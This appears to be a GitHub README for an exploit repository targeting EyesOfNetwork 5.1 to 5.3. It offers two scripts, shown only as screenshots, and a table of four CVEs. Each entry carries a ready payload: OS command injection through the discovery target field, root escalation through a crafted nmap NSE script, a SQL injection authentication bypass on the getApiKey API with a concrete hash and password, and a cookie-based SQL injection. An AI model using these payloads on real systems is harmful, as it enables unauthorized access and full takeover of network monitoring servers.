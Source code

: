 # eonrce
EyesOfNetwork 5.1 to 5.3 exploits

Theses two exploit files uses the following CVE's:
| CVE_number__ | Description |
| ------------- | --- |
| CVE-2020-8654 | Discovery module to allows to run arbitrary OS commands<br>We were able to run the `id` command with the following payload in the target field : `;id #`.|
| CVE-2020-8655 | LPE via nmap NSE script<br>As the apache user is allowed to run nmap as root, we were able to execute arbitrary commands by providing a specially crafted NSE script.<br>nmap version 6.40 is used and doesn't have the `-c` and `-e` options.|
| CVE-2020-8656 | SQLi in API in getApiKey function on 'username' field<br>PoC: `/eonapi/getApiKey?username=' union select sleep(3),0,0,0,0,0,0,0 or '`<br>Auth bypass: `/eonapi/getApiKey?&username=' union select 1,'admin','1c85d47ff80b5ff2a4dd577e8e5f8e9d',0,0,1,1,8 or '&password=h4knet#`|
| CVE-2020-9465 | SQLi in API in Cookies `user_id` field<br>PoC: `Cookie: user_id=1' union select sleep(3) -- ;`|


### eonrce.py
![screenshot](eonrce51.gif)

### eonrce2.py
![screenshot](eonrce53.gif)


